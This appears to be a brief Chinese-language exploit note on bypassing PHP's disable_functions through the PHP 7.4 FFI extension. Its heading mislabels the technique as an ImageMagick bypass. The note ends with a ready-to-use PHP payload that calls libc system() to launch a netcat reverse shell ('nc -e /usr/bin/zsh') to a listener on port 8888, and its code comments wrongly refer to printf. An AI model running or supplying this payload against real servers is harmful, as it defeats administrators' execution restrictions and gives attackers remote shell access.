 ## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4

ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用C代码。
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

 (images/15904998297441.png)


**3.exp**

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?>

```

